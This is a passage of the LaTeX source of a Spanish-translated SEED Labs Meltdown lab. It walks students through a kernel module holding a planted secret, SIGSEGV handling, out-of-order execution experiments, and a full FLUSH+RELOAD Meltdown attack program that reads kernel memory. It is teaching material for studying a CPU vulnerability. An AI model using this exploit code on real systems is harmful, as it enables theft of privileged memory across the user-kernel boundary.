Sin embargo, este mecanismo se ve vulnerado con el ataque Meltdown, que permite que programas no privilegiados del espacio del usuario pueda lear de forma arbitraria memoria del espacio de direcciones del kernel.

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 3: Guardando data sensible en el Espacio del Kernel}

Para simplificar nuestra tarea, hemos guardado un dato secreto en el espacio del kernel y mostramos como un programa corriendo en el espacio de usuario puede encontrar cual es ese dato secreto. Hemos usado un módulo kernel para guardar este dato secreto. La implementación de este módulo se encuentra en el archivo \texttt{MeltdownKernel.c}. 
La tarea de loos estudiantes será compilar y instalar este módulo. El código es mostrado a continuación.

\begin{lstlisting}[caption=\texttt{MeltdownKernel.c}, label=meltdown:list:kernelmodule]
static char secret[8] = {'S', 'E', 'E', 'D', 'L', 'a', 'b', 's'};
static struct proc_dir_entry *secret_entry;
static char* secret_buffer;

static int test_proc_open(struct inode *inode, struct file *file)
{
#if LINUX_VERSION_CODE <= KERNEL_VERSION(4,0,0)
   return single_open(file, NULL, PDE(inode)->data);
#else
   return single_open(file, NULL, PDE_DATA(inode));
#endif
}

static ssize_t read_proc(struct file *filp, char *buffer, 
                         size_t length, loff_t *offset)
{
   memcpy(secret_buffer, &secret, 8);                  (*@\ding{192}@*)
   return 8;
}

static const struct file_operations test_proc_fops =
{
   .owner = THIS_MODULE,
   .open = test_proc_open,
   .read = read_proc,
   .llseek = seq_lseek,
   .release = single_release,
};

static __init int test_proc_init(void)
{
   // write message in kernel message buffer
   printk("secret data address:%p\n", &secret);        (*@\ding{193}@*)

   secret_buffer = (char*)vmalloc(8);

   // create data entry in /proc
   secret_entry = proc_create_data("secret_data", 
                  0444, NULL, &test_proc_fops, NULL);  (*@\ding{194}@*)
   if (secret_entry) return 0;

   return -ENOMEM;
}


static __exit void test_proc_cleanup(void)
{
   remove_proc_entry("secret_data", NULL);
}

module_init(test_proc_init);
module_exit(test_proc_cleanup);
\end{lstlisting}

Existen dos cuestiones importantes a tener en cuenta o los ataques Meltdown serán difíciles de lograr. En nuestro módulo kernel, debemos de asegurarnos que se cumplan las siguientes condiciones:

\begin{itemize}
\item Necesitamos saber la dirección del dato secreto. El módulo guarda la dirección de este dato en el buffer de mensajes del kernel (Línea \ding{193}), que es accesible de forma pública; de ahí obtendremos la dirección. En los escenarios reales de un ataque Meltdown, los atacantes deben de descubrir la forma de obtener la dirección o adivinarla de alguna forma.

\item El dato secreto necesita estar cacheado o la tasa de probabilidad de éxito en el ataque será baja.  La razón de esto será explicada después. Para lograr esto, necesitamos usar el dato secreto solamente una vez. Hemos creado una entrada de datos en \texttt{/proc/secret\_data}~(Línea \ding{194}), la cual provee una ventana para programas que corren en el espacio de usuario y que permite interactuar con el móduloo del kernel. Cuando el programa en el espacio del usuario lee de esta entrada, la función \texttt{read\_proc()} será invocada en el módulo del kernel, dentro de la cual el dato secreto será cargado (Línea \ding{192}) y así será almacenada en la caché del CPU.
Cabe señalar que la función \texttt{read\_proc()} no devuelve el dato secreto al espacio de usuario, para que este no se filtre, por lo que necesitamos usar el ataque Meltdown para obtener este dato secreto.
\end{itemize}


\paragraph{Compilación y ejecución.}
Descargue el código del sitio oficial del laboratorio y entre al directorio que contiene el \textit{Makefile} y \textit{MeltdownKernel.c}. Escriba el comando \texttt{make} para compilar el módulo del kernel.
Para instalar este módulo, usaremos el comando  \texttt{insmod}. Una vez que hemos instalado el módulo de forma correcta, podemos usar el comando \texttt{dmesg} para obtener la dirección del dato secreto en el buffer de mensajes del kernel. Anote esta dirección ya que será usada más adelante.

\begin{lstlisting}
 $ make
 $ sudo insmod MeltdownKernel.ko
 $ dmesg | grep 'secret data address'
 secret data address: 0xfb61b000
\end{lstlisting}
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 4: Accediendo a la Memoria del Kernel desde el Espacio de Usuario}

Ahora que conocemos la dirección del dato secreto, procederemos a hacer un experimento y observar si podemos acceder o no a la dirección antes anotada y obtener el dato secreto.
Puede escribir su propio código para este experimento. Hemos hecho un código de ejemplo que se muestra a continuación. Debe de reemplazar la dirección en la Línea \ding{192}, con la que anotó en la Tarea anterior.
Compile y ejecute este programa (o su propio código) y describa su observación.
¿Será exitosa la ejecución de la Línea \ding{193}? ¿Puede ejecutar el programa la Línea \ding{193}?


\begin{lstlisting}
int main()
{
  char *kernel_data_addr = (char*)0xfb61b000;  (*@\ding{192}@*)
  char kernel_data = *kernel_data_addr;        (*@\ding{193}@*)
  printf("I have reached here.\n");            (*@\ding{194}@*)
  return 0;
}
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 5: Manejar Errores/Excepciones en C}

En la Tarea 4, es probable que haya aprendido que el acceso directo al espacio de memoria del kernel desde el espacio de usuario cause que el programa rompa. En el ataque Meltdown, necesitamos hacer algo después de acceder a la memoria del kernel, por lo que no dejaremos que el programa rompa abruptamente. El acceso a espacios no permitidos de memoria provocan una señal SIGSEGV; si el programa no maneja este tipo de excepción, el sistema operativo se encargará de hacerlo y terminará el programa. Ese es el porque de la terminación abrupta del programa en cuestión. Existen varias formas de prevenir que un programa termine de forma abrupta debido al suceso de eventos de este tipo.

%With Intel TSX technology,
%exceptions can be suppressed in the first place by making several instruction
%statements atomic. Due to the lack of support of TSX in VirtualBox, even if your CPU has TSX
%feature enabled, our VM cannot benefit from it. Thus, we will not use this technique.
Una de esas formas es definir un handler de señales en el programa para capturar las excepciones provocadas por este tipo de eventos.


A diferencia de C++ o otros lenguajes de alto nivel, C no ofrece soporte directo para el manejo de errores (también conocido como el manejo de excepciones), bloques tales como try/catch. 
Sin embargo, podemos emular un bloque try/catch usando \texttt{sigsetjmp()} y \texttt{siglongjmp()}.
Hemos hecho un programa en C llamado \texttt{ExceptionHandling.c} dentro de este demostramos como un programa puede continuar su ejecución incluso después de ocurrida una exepción, como una violación de acceso en memoria. Por favor ejecute este código y describa sus observaciones.

\begin{lstlisting}[caption=\texttt{ExceptionHandling.c}]
static sigjmp_buf jbuf;

static void catch_segv()
{
  // Roll back to the checkpoint set by sigsetjmp().
  siglongjmp(jbuf, 1);                             (*@\ding{192}@*)
}

int main()
{ 
  // The address of our secret data
  unsigned long kernel_data_addr = 0xfb61b000;

  // Register a signal handler
  signal(SIGSEGV, catch_segv);                     (*@\ding{193}@*)

  if (sigsetjmp(jbuf, 1) == 0) {                   (*@\ding{194}@*)
     // A SIGSEGV signal will be raised. 
     char kernel_data = *(char*)kernel_data_addr;  (*@\ding{195}@*)

     // The following statement will not be executed.
     printf("Kernel data at address %lu is: %c\n", 
                    kernel_data_addr, kernel_data);
  }
  else {
     printf("Memory access violation!\n");
  }

  printf("Program continues to execute.\n");
  return 0;
}
\end{lstlisting}

El manejo de excepciones en este código es algo complicado, por lo que procederemos a explicarlo:


\begin{itemize}
\item Se establece un handler de señales; registramos la señal \texttt{SIGSEGV} en la Línea \ding{193}, por lo tanto cuando se dispare una señal \texttt{SIGSEGV}, la función del handler \texttt{catch\_segv()} será invocada.

\item Se establece un checkpoint: después de que el handler de señales termino de procesar la exepción, este permitirá que el programa continue con su ejecución a partir de ese checkpoint. Es necesario definir el checkpoint primero. Esto se hace a través de \texttt{sigsetjmp()} en la Línea \ding{194}: 
\texttt{sigsetjmp(jbuf, 1)} guarda el contexto del stack en \texttt{jbuf} para su uso posterior por \texttt{siglongjmp()}; retorna 0 cuando el checkpoint se establece usando ~\cite{sigsetjmp}. 

\item Cuando \texttt{siglongjmp(jbuf, 1)} se ejecuta, se vuelve al checkpoint, todo el contexto guardado en \texttt{jbuf} es copiado nuevamente en el procesador y se retoma la ejecución a partir del punto de retorno de la función \texttt{sigsetjmp()} pero el valor de retorno de la función \texttt{sigsetjmp()} es el segundo argumento de la función \texttt{siglongjmp()}, que en este caso es \texttt{1}.
Es así como después de manejar esta excepción, el programa continua ejecutando desde el \texttt{else}.

\item Disparando la excepción: La señal de \texttt{SIGSEGV} se produce por un acceso no permitido en memoria y es disparada en la Línea \ding{195} (recordemos que en un programa en el espacio de usuario no puede acceder a la memoria del kernel).

\end{itemize}



%\item \textbf{Line \ding{194}}: \texttt{sigsetjmp()} returns 0 if returning directly, and non-zero when
%returning from \texttt{siglongjmp()} using the saved context. If the second argument of 
%\texttt{sigsetjmp()} is
%non-zero, the process's current signal mask is saved in \texttt{jbuf} and will be restored if a
%\texttt{siglongjmp()} is later performed with this \texttt{jbuf}. Therefore, when 
%\texttt{sigsetjmp()} is invoked the first time,
%it returns 0 and fills the \texttt{jbuf} structure with the calling environment and signal mask. The
%calling environment represents the state of registers and the point in the code where the
%function was called. In this case, \texttt{SIGSEGV} is captured and 
%\texttt{siglongjmp()} is called, the program
%will roll back to here, with \texttt{ sigsetjmp()}’s return value be 1.
%

%The execution sequence for our program is the following:

%\begin{enumerate}
%\item Set up the \texttt{SIGSEGV} handler (Line \ding{193}).

%\item \texttt{sigsetjmp()} is invoked for the first time; its return value is 0 (Line
%\ding{194}).
%
%\item Access the kernel memory, and a \texttt{SIGSEGV} signal is raised (Line \ding{195}).
%
%\item \texttt{catch\_segv()} is called. \texttt{siglongjmp()} is called and reset the calling
%environment from \texttt{jbuf}. It also sets the return value of
%\texttt{sigsetjmp()} to 1 (Line \ding{192}).
%
%\item Program jumps to Line \ding{194}. This time the if statement is not evaluated to be true.
%
%\item The else branch is executed.
%\end{enumerate}







% *******************************************
% SECTION
% *******************************************
\section{Tarea 6: Ejecución Fuera de Orden en el CPU}

Ya aprendimos en las tareas anteriores que si un programa trata de leer en la memoria del kernel esto provocará una falla de acceso y se producirá una excepción. 
Usando el siguiente código como ejemplo, sabemos que la Línea 3 producirá una excepción debido a que la dirección \texttt{0xfb61b000} pertenece al espacio de direcciones del kernel. Por lo tanto, se interrumpirá la ejecución en la Línea 3 y la Línea 4 nunca será ejecutada por lo que el valor de la variable \texttt{number} seguirá siendo 0.

\begin{lstlisting}
1  number = 0;
2  *kernel_address = (char*)0xfb61b000;
3  kernel_data = *kernel_address;
4  number = number + kernel_data;
\end{lstlisting}

La declaración anterior sobre el código de ejemplo es cierta si se mirá por fuera del CPU.
Sin embargo esto no es así si nos metemos dentro del mismo y observamos la secuencia de ejecución a nivel de microarquitectura. Si hacemos esto, descubriremos que la Línea 3 obtiene el dato desdde el kernel y que la Línea 4 y el resto de las instrucciones son ejecutadas. Esto se debe a una técnica de optimización implementada en los CPUs modernos, llamada ejecución fuera de orden (out-of-order execution).

En lugar de ejecutar las instrucciones en el orden estricto en que fueron establecidas, los CPUs modernos de alta performance permiten que la ejecución fuera de orden usen todas sus unidades de ejecución para optimizar la performance y manejar de manera eficiente el uso de recursos, de otra forma estaríamos en un escenario donde una instrucción esperaría que termine la ejecución de una instrucción anterior teniendo la posibilidad de poder ser ejecutada en unidades de ejecución en el CPU que están ociosas \cite{wiki:outoforder}. 

Si observamos el código de ejemplo anterior, y nos posicionamos a un nivel de microarquitectura, la Línea 3 implica dos operaciones: Cargar el dato (usualmente dentro de un registro) y chequear cuando el acceso a este dato es permitido o no. SSi el dato está en la caché del CPU, la primera operación será rápida, mientras que la segunda será un poco más lenta. Para evitar la espera, el CPU continuará ejecutando la Línea 4 y el resto de las instrucciones mientras que realiza el chequeo del acceso en paralelo. Esto es la ejecución fuera de orden. Los resultados de la ejecución no serán confirmados antes que termine el chequeo del acceso. En nuestro si el ese chequeo falla, todos los resultados producidos por la ejecución fuera de orden serán descartados como si nunca hubiera sucedido. Es por eso que si estamos por fuera del CPU no vemos la ejecución de la Línea 4.
La Figura \ref{meltdown:fig:outoforder} ilustra el escenario anteriormente descripto.



\begin{figure}[htb]
\centering

\includegraphics[width=0.75\textwidth]{\meltdownFigs/meltdown.pdf}
\caption{Ejecución Fuera de Orden dentro del CPU}
\label{meltdown:fig:outoforder}
\end{figure}

Tanto Intel como otros fabricantes de CPUs cometieron algunos errores graves en el diseño de la técnica de la ejecución fuera de orden (out-of-order execution).
En el contexto de este diseño, se borrán los efectos de la ejecución fuera de orden tanto en los registros como en la memoria si es que tal ejecución no se supone que deba de ocurrir. Sin embargo, olvidaron algo, los efectos en las caches del CPU.
Durante la ejecucióon fuera de orden, la memoria a la que se intenta acceder es guardada tanto en en un registro como en la caché. Si la ejecución fuera de orden debe de ser descartada o mejor dicho los efectos de la misma, la caché en donde se guardan estos resultados o efectos, también debería de ser descartados. Desafortunadamente este no es el caso en la mayoría de los CPUs.
Por lo tanto, esto crea un efecto observable.
Utilizando la técnica de side channel descrita en las Tareas 1 y 2,
se puede observar tal efecto. El ataque Meltdown usa de manera inteligente este
efecto observable para descubrir valores secretos dentro de la memoria del kernel.

En esta tarea, usaremos un experimento para observar este efecto causado por la ejecución fuera de orden. El código para este experimento es mostrado a continuación. 
La Línea \ding{192} causará una excepción y esto hará que la Línea \ding{193} no sea ejecutada. Sin em bargo, dada la ejecución fuera de orden, sabemos que la Línea \ding{193} será ejecutada por el CPU pero el resultado será eventualmente descartado, pero dado que la ejecución cachea sus efectos en el CPU se guardará \texttt{array[7 * 4096 + DELTA]}. 
Para poder observar este efecto usaremos el código side-channel que hemos implementado en las Tareas 1 y 2.
Por favor descargue el código desde el sitio oficial del laboratorio, ejecútelo y describa sus observaciones, también agregue evidencia que demuestre que la Línea\ding{193} está siendo ejecutada. 


\begin{lstlisting}[caption=\texttt{MeltdownExperiment.c}, label=meltdown:list:outoforder]
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;

  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     (*@\ding{192}@*)
  array[7 * 4096 + DELTA] += 1;               (*@\ding{193}@*)
}


// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  // Register a signal handler
  signal(SIGSEGV, catch_segv);

  // FLUSH the probing array
  flushSideChannel();

  if (sigsetjmp(jbuf, 1) == 0) {
      meltdown(0xfb61b000);                   (*@\ding{194}@*)
  }
  else {
      printf("Memory access violation!\n");
  }

  // RELOAD the probing array
  reloadSideChannel();                     
  return 0;
}
\end{lstlisting}

Cabe señalar que la dirección en la Línea  \ding{194} debe de ser reemplazada por la dirección que el módulo del kernel le devuelve en el buffer de mensajes del kernel. Compile y ejecute el código (Vea la Sección \ref{sidechannel:sec:compilation} para más instrucciones como compilar el código). Documente y explique sus observaciones.

%What \texttt{"taskset 0x1"} does is basically pinning this program to only
%one logical core to reduce cache miss, because L1 cache is proprietary to each core and we
%do not want our program to be cached in a different L1 cache.

%\begin{lstlisting}
% $ gcc -march=native MeltdownExperiment.c
%\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 7: Lo Básico del Ataque Meltdown}

La ejecución fuera de orden nos crea una oportunidad que nos permite leer datos de la memoria del kernel y usar esos datos para realizar operaciones que causan efectos observables en la caché del CPU. Cuan lejos pueda ir la CPU en la ejecución fuera de orden depende de que tan lento se realice la operación de chequeo del acceso, operación que es ejecutada en paralelo junto con otras operaciones. Esta es una situación típica de race condition. En esta tarea, explotaremos esta race condition para robar el dato secreto del kernel.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 7.1: Una Aproximación Naive}

En la tarea anterior, hemos hecho que \texttt{array[7 * 4096 + DELTA]} quede en la caché del CPU.
Aunque podamos observar ese efecto, no podemos obtener información útil sobre el dato secreto. Si en vez de usar \texttt{array[7 * 4096 + DELTA]}, usamos \texttt{array[kernel\_data * 4096 + DELTA]} nos llevará dentro de la caché del CPU.
Usando la técnica FLUSH+RELOAD, chequeamos el tiempo de acceso de \texttt{array[i*4096 + DELTA]} para \texttt{i = 0, $\ldots$, 255}. 
Si encontramos que \texttt{array[k*4096 + DELTA]} está en la caché, podemos inferir que el valor de \texttt{kernel\_data} es \texttt{k}.
Por favor intente esto modificando \texttt{MeltdownExperiment.c} mostrado en el Fragmento~\ref{meltdown:list:outoforder}. Por favor describa sus observaciones.
Incluso si su ataque no es exitoso, debe de anotar sus observaciones y continuar a la Tarea 7.2, que mejora este ataque.

%Meltdown exploits a race condition, which occurs between memory access and permission checking
%during instruction processing, as you can see in Figure 4.
%To successfully launch the meltdown attack, the following steps will be taken:

%\begin{enumerate}
%\item User program tries to access the secret data in kernel memory by its address.
%
%\item CPU will load secret data into register while waiting for security check.
%
%\item Program continues to execute because of the out-of-order execution, but the results will
%never be committed because an exception will be raised in previous instruction.
%
%\item During out-of-order execution, the program brings the secret data into cache.
%
%\item CPU is done with the security check. Since we access a prohibited memory location, an exception is raised.
%
%\item The exception should be handled properly to prevent the program from crashing.
%
%\item All the memory and register contents during out-of-order execution won’t be committed.
%But the cache content is not evicted.
%
%\item Cache side-channel attack (Flush+Reload) can be leveraged to steal the secret data from the cache.
%\end{enumerate}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 7.2: Mejorar el Ataque Obteniendo el Dato Secreto Cacheado}

Meltdown es una vulnerabilidad de race condition, que involucra una carrera entre la ejecución fuera de orden y el chequeo de acceso. Mientras más rápida sea la ejecución fuera de orden, más instrucciones se pueden ejecutar y tendremos más chances de crear efectos observables que nos ayuden a obtener el dato secreto. Observemos como podemos hacer que la ejecución fuera de orden sea más rápida.

El primer paso de la ejecución fuera de orden en el contexto de nuestro código consiste en cargar el dato del kernel dentro de un registro. Al mismo tiempo se realiza el chequeo de seguridad del acceso.
Si el tiempo de carga del dato es más lento que el chequeo de seguridad, es decir cuando termina este chequeo, el dato del kernel todavía está en viaje desde la memoria hacia el registro, la ejecución fuera de orden será inmediatamente interrumpida y descartada, porque falló el chequeo del acceso, por ende nuestro ataque fallará.

Si el dato del kernel se encuentra ya cargado en la caché del CPU, la carga de este dato en un registro será mucho más rápida y es posible que podamos llegar a nuestra instrucción crítica que carga carga el arreglo, antes que el chequeo fallido aborte la ejecución fuera de orden. En la práctica si el item del dato del kernel no está cacheado, usar Meltdown para robar este dato será difícil. Sin embargo, como ha sido demostrado, los ataques Meltdown aún pueden ser exitosos, pero requieren de una CPU y una DRAM de alta performance \cite{meltdowdemo}.

En este laboratorio, obtendremos el dato secreto del kernel cacheado antes de lanzar el ataque.
En el módulo del kernel mostrado en el Fragmento~\ref{meltdown:list:kernelmodule}, hemos dejado que un programa en el espacio de usuario invoque una función dentro de un módulo del kernel. Esta función accederá al dato secreto sin filtrarlo al programa del espacio de usuario. El efecto colateral de este acceso resulta en el cacheo de dato secreto dentro del CPU. Podemos agregar el código a nuestro programa de ataque utilizado en la Tarea 7.1, antes que ocurra la ejecución fuera de orden.
Por favor ejecute su programa de ataque modificado y vea si su tasa de éxito ha mejorado o no.

\begin{lstlisting}
// Open the /proc/secret_data virtual file.
int fd = open("/proc/secret_data", O_RDONLY);
if (fd < 0) {
    perror("open");
    return -1;
}

int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 7.3: Usando Código Ensamblador para Ejecutar el Ataque}

Probablemente todavía no pueda tener éxito en la tarea anterior, incluso teniendo el dato secreto almacenado en la caché por la CPU.
Vamos a hacer algunas mejoras agregando unas pocas líneas de instrucciones de ensamblador antes del acceso a memoria del kernel. Vea el código más abajo en \texttt{meltdown\_asm()}. Básicamente este código realiza un loop que se ejecuta 400 veces (Línea \ding{192}); dentro de ese loop, se suma el número \texttt{0x141} al registro \texttt{eax}. Este código realiza operaciones de poca utilidad en términos computacionales, pero esas líneas extras de código ``permiten realizar cierta cantidad de operaciones algorítmicas para que las unidades de ejecución del CPU "se entretengan procesando" mientras especula sobre el acceso a memoria''~\cite{boldin}


\begin{lstlisting}[caption=\texttt{meltdown\_asm()}, label=meltdown:list:meltdown_asm]
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                  (*@\ding{192}@*)
       "add $0x141, %%eax;"
       ".endr;"                      (*@\ding{193}@*)
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
\end{lstlisting}

Por favor llame a la función \texttt{meltdown\_asm()} en vez de la función original  \texttt{meltdown()}. Describa sus observaciones. Incremente o decremente el número de loops y reporte sus resultados.




% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 8: Haciendo el Ataque más Práctico}

Incluso con la optimización de la tarea anterior, es posible que aún no podamos
obtener el dato secreto: puede que por momentos nuestro ataque logrará obtener el dato correcto, pero a veces, nuestro ataque no lo hará y producirá un valor incorrecto.
Para mejorar la precisión, podemos usar una técnica estadística.
La idea es crear un arreglo de scores de un tamaño de 256, un elemento por cada posible valor secreto. Una vez hecho se correrá el ataque reiterada veces. Cada vez, si nuestro programa dea taque dice que el dato secreto es \texttt{k} (esto puede ser falso), agregamos 1 en \texttt{scores[k]}. Después de correr el ataque muchas veces, usamos el valor \texttt{k} que tenga el score más alto como nuestra estimación final en lugar de usar el obtenido en una sola corrida. El código de esta técnica es mostrado a continuación:


\begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}

Por favor compile y ejecute el código, explique sus observaciones.
El código anterior solamente obtiene 1 byte del dato secreto del kernel. El valor secreto actual que se ubica en el kernel tiene 8 bytes. Necesita modificar el código anteriormente mosotrado para obtener los 8 bytes del dato secreto.


% *******************************************
% SECTION
% *******************************************
\section{Informe del Laboratorio}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% *******************************************
\section*{Agradecimientos}

Este documento ha sido traducido al Español por Facundo Fontana



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\bibliographystyle{plain}
\def\baselinestretch{1}
\bibliography{BibMeltdownSpectre}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


